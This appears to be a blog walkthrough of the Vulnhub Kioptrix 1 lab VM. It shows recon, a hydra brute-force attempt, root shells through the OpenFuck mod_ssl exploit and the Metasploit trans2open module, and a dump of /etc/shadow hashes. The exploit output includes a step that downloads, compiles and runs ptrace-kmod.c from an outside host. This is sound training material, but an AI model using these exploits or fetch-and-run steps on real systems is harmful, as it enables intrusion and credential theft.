


Vulnhub - Kioptrix 1 (#1)
First post in the pentest category, we take a trip through time and try to break into one of the oldest box to root: Kioptrix.
Trying to break these box with a kali 2020 is a bit of a challenge as most of the stuff is ancient and has been dropped from all modern distributions, including kali. Expect lots of fixing :D
Fixing the network of Kioptrix
After importing the Kioptrix VM to VMware, I had troubles changing the network adapter from bridge to NAT. No matter what I tried, it would automatically go back to bridged…
What worked for me was:
- shutting down the VM
- removing the network adapter
- adding a new network adapter
- set that network adapter to NAT
Now, kali and kioptrix are both set to NAT, so they share the subnet vmnet8, which has the address 172.16.149.0/24.
Find the IP of the VM
Several methods are possible to find the IP of the VM, I like to use arp or arp-scan, both are very quick.
- Check the arp cache with the command
arp:
$ arp
Address HWtype HWaddress Flags Mask Iface
172.16.149.2 ether 00:50:56:fd:11:d0 C eth0
172.16.149.254 ether 00:50:56:fe:b1:9f C eth0
172.16.149.130 ether 00:0c:29:5a:27:58 C eth0
- Use
netdiscover:
$ netdiscover -r 172.16.149.0/24
16 Captured ARP Req/Rep packets, from 4 hosts. Total size: 960
_____________________________________________________________________________
IP At MAC Address Count Len MAC Vendor / Hostname
-----------------------------------------------------------------------------
172.16.149.1 00:50:56:c0:00:08 1 60 VMware, Inc.
172.16.149.2 00:50:56:fd:11:d0 2 120 VMware, Inc.
172.16.149.130 00:0c:29:5a:27:58 3 180 VMware, Inc.
172.16.149.254 00:50:56:eb:0a:4c 10 600 VMware, Inc.
- Use
nmapto do an ARP scan:
$ sudo nmap -sP -r 172.16.149.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 07:47 EDT
Nmap scan report for 172.16.149.1
Host is up (0.00046s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.149.2
Host is up (0.00033s latency).
MAC Address: 00:50:56:FD:11:D0 (VMware)
Nmap scan report for 172.16.149.130
Host is up (0.00066s latency).
MAC Address: 00:0C:29:5A:27:58 (VMware)
Nmap scan report for 172.16.149.254
Host is up (0.00049s latency).
MAC Address: 00:50:56:FE:B1:9F (VMware)
Nmap scan report for 172.16.149.129
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.05 seconds
- Use
arp-scan:
$ sudo arp-scan 172.16.149.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:fd:2b:71, IPv4: 172.16.149.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.149.1 00:50:56:c0:00:08 VMware, Inc.
172.16.149.2 00:50:56:fd:11:d0 VMware, Inc.
172.16.149.130 00:0c:29:5a:27:58 VMware, Inc.
172.16.149.254 00:50:56:fe:b1:9f VMware, Inc.
4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.062 seconds (124.15 hosts/sec). 4 responded
Tiny digression on VMware network conventions: 3 addresses will always be reserved and you can ignore those in your scans: .1 , .2 and .254 .
172.16.149.1is the address of your host machine172.16.149.2is the gateway of the subnetwork (which can be checked withrouteon the kali VM)172.16.149.254: DHCP server, address will be in the range.128to.253- the range
.3to.127is reserved for static addresses
And that’s how we know that the kioptrix VM has taken the IP 172.16.149.130.
Kioptrix 1: 172.16.149.130/24
Service Discovery
Run nmap to discover the open ports and identify the services:
nmap -T4 -p- -A -oA nmap_tcp 172.16.149.130
-T4: speed, between 1 (slow) and 5 (fast)-p-: scan all ports, not just the 1024 most common-A: everything: OS detection, version detection, script scanning, traceroute
open ports and services:
- 22: OpenSSH 2.9p2
- 80: Apache httpd 1.3.20
- 111: rpcbind
- 139: samba smbd workgroup: 6MYGROUP
- 443: https mod_ssl/2.8.4 OpenSSL/0.9.6b
- 32768: ??
OS: Linux Red Hat
22 SSH
The version of OpenSSH is 2.9p2, which is vulnerable to some interesting CVEs:
- https://www.cvedetails.com/cve/CVE-2002-0083/
- https://www.cvedetails.com/cve/CVE-2002-0640/
- https://www.cvedetails.com/cve/CVE-2002-0639/
But I couldn’t find any public exploits for these.
Fixing SSH in kali 2020
Trying to connect on SSH fails because the ciphers offered are just too old…
$ ssh root@172.16.149.130
Unable to negotiate with 172.16.149.130 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
Add one of the supported key exchange method:
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@172.16.149.130
Unable to negotiate with 172.16.149.130 port 22: no matching cipher found. Their offer: aes128-cbc,3des-cbc,blowfish-cbc,cast128-cbc,arcfour,aes192-cbc,aes256-cbc,rijndael128-cbc,rijndael192-cbc,rijndael256-cbc,rijndael-cbc@lysator.liu.se
Add one of the supported ciphers:
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes256-cbc root@172.16.149.130
The authenticity of host '172.16.149.130 (172.16.149.130)' can't be established.
RSA key fingerprint is SHA256:VDo/h/SG4A6H+WPH3LsQqw1jwjyseGYq9nLeRWPCY/A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
The SSH connection is now fixed /o/
Brute-forcing [fail]
We can try to bruteforce the SSH password for root with hydra. And we need a worlist for that, there are some on https://github.com/fuzzdb-project/fuzzdb/tree/master/wordlists-user-passwd/passwds. Otherwise kali has the classical rockyou.txt in /usr/share/wordlists.
$ hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 ssh://172.16.149.130
It didn’t find any matching password.
80/443 HTTP(S)
Browsing http://172.16.149.130, we are greeted by a default test page:

The 404 page confirms the exact Apache version:

Checking the HTTP headers with the firefox developer tools… They are kinda verbose and gives us information about the version of mod_ssl, openSSL and Apache.
HTTP/1.1 304 Not Modified
Date: Sat, 11 Apr 2020 12:08:50 GMT
Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
Connection: close
ETag: "8805-b4a-3b96e9ae"
Summary:
- OpenSSL/0.9.6b
- mod_ssl/2.8.4
- Apache/1.3.20
Web Scanning
Using dirb to discover directories:
dirb http://172.16.149.130 -o dirb.out
Nothing really stood out:
- http://172.16.149.130/mrtg/
- http://172.16.149.130/usage/ has a webalizer version 2.01
OpenFuck [success]
That version of mod_ssl is vulnerable to OpenFuck. Unfortunately, the exploit is a bit outdated. Let’s try https://github.com/heltonWernik/OpenLuck which is an updated version of that exploit. Compile the exploit as the README and run the binary:
$ ./OpenFuck
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
: Usage: ./OpenFuck target box [port] [-c N]
target - supported box eg: 0x00
box - hostname or IP address
port - port for ssl connection
-c open N connections. (use range 40-50 if u dont know)
Supported OffSet:
[...]
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
[...]
Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
2 offsets seem to match our RedHat box with an Apache 1.3.20
./OpenFuck 0x6a 172.16.149.130 -c 40
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
Good Bye!
$ ./OpenFuck 0x6b 172.16.149.130 -c 40
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c ciphers: 0x80f1c70
Ready to send shellcode
Spawning shell...
Good Bye!
Huh, no shell at the end :(( Refreshing the page on the web server http://172.16.149.130/ seems to help spawn a shell:
$ ./OpenFuck 0x6b 172.16.149.130 -c 40
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--07:18:13-- http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
=> `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--07:18:14-- https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
=> `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]
0K ... 100% @ 43.51 KB/s
07:18:15 (43.51 KB/s) - `ptrace-kmod.c' saved [3921/3921]
[+] Attached to 1081
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
139 SMB
Fixing smbclient in Kali 2020
If running smbclient gives you an error like this:
$ smbclient -L <IP>
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
The smbclient on Kali doesn’t have support for that really ancien smb.
Edit /etc/samba/smb.conf and add in the [global] section:
client min version = NT1
Recon
Using the smb_version module of metasploit, the version of Samba is identified as: Samba 2.2.1a.
Let’s try to list the available shares:
$ smbclient -L //172.16.149.130
Unable to initialize messaging context
Server does not support EXTENDED_SECURITY but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\kali's password:
Sharename Type Comment
--------- ---- -------
IPC$ IPC IPC Service (Samba Server)
ADMIN$ IPC IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Server Comment
--------- -------
KIOPTRIX Samba Server
Workgroup Master
--------- -------
MYGROUP KIOPTRIX
Two shares can be listed by connecting to it: IPC$ and ADMIN$. Let’s try to connect to them:
$ smbclient //172.16.149.130/ADMIN$
Unable to initialize messaging context
Server does not support EXTENDED_SECURITY but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\kali's password:
tree connect failed: NT_STATUS_WRONG_PASSWORD
We can’t connect to ADMIN$ which is password-protected.
$ smbclient //172.16.149.130/IPC$
directory_create_or_exist: mkdir failed on directory /run/samba/msg.lock: Permission denied
Unable to initialize messaging context
Server does not support EXTENDED_SECURITY but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
We can connect as anonymous on IPC$ but we can’t list anything.
trans2open [success]
Researching available vulnerabilities for Samba 2.2.1a, the trans2open shows up and is available as an exploit module in metasploit.
msf > use exploit/linux/samba/trans2open
Running the exploit succeeds but the default Meterpreter payload fails, it might be too advanced for that old box… Let’s change the payload for something simpler:
msf5 exploit(linux/samba/trans2open) > set payload linux/x86/shell/bind_tcp
payload => linux/x86/shell/bind_tcp
sf5 exploit(linux/samba/trans2open) > run
[*] Started bind TCP handler against 172.16.149.130:4444
[*] 172.16.149.130:139 - Trying return address 0xbffffdfc...
[*] 172.16.149.130:139 - Trying return address 0xbffffcfc...
[*] 172.16.149.130:139 - Trying return address 0xbffffbfc...
[*] 172.16.149.130:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 172.16.149.130
[*] Command shell session 6 opened (172.16.149.129:34797 -> 172.16.149.130:4444) at 2020-04-11 04:41:51 -0400
Post-exploit
id
uid=0(root) gid=0(root) groups=99(nobody)
We managed to gain root access through the Apache web server and through the Samba. Let’s explore root’s home a bit now!
ls -la
total 8
drwxrwxrwt 2 root root 1024 Apr 11 05:00 .
drwxr-xr-x 19 root root 1024 Apr 11 04:19 ..
-rw------- 1 root root 5184 Apr 11 05:00 mbox
file mbox
mbox: ASCII mail text
That mbox file is actually a mailbox, let’s run mail to check the latest mails:
mail
Mail version 8.1 6/6/93. Type ? for help.
"/var/mail/root": 8 messages 7 new 8 unread
U 1 root@kioptix.level1 Sat Sep 26 11:42 15/481 "About Level 2"
>N 2 root@kioptrix.level1 Thu Apr 9 12:59 18/522 "LogWatch for kioptrix"
N 3 root@kioptrix.level1 Fri Apr 10 14:12 103/3383 "LogWatch for kioptrix"
N 4 root@kioptrix.level1 Fri Apr 10 14:12 21/764 "Anacron job 'cron.dai"
N 5 root@kioptrix.level1 Sat Apr 11 03:56 47/1110 "LogWatch for kioptrix"
N 6 root@kioptrix.level1 Sat Apr 11 03:56 21/764 "Anacron job 'cron.dai"
N 7 root@kioptrix.level1 Sat Apr 11 04:02 47/1110 "LogWatch for kioptrix"
N 8 root@kioptrix.level1 Sat Apr 11 04:02 26/943 "Cron <root@kioptrix> "
1
Message 1:
From root Sat Sep 26 11:42:10 2009
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
For later, I wonder if we can crack some of these passwords offline:
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::